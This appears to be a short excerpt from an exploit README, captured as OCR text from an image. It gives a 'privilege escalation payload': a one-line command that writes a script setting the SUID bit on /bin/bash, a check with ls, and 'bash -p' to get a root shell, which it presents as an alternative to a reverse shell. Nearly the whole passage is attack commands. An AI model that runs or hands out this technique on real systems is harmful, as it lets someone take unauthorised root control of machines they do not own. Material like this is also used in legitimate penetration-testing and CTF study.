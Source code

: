 ##### _Privilege escalation payload:_
This method can be used to escalate privileges as an alternative for a reverse shell. 
- 1\. Use the following command to create a bash script which sets the SUID bit for /bin/bash: `echo $'#!/bin/bash\n/bin/chmod u+s /bin/bash' > script.sh`
- 2\. \(optional\) verify if the SUID bit \(\-rw\[s\]r\-xr\-x\) was set successfully: `ls -lah /bin/bash`
- 3\. Escalate current shell to root: `bash -p`

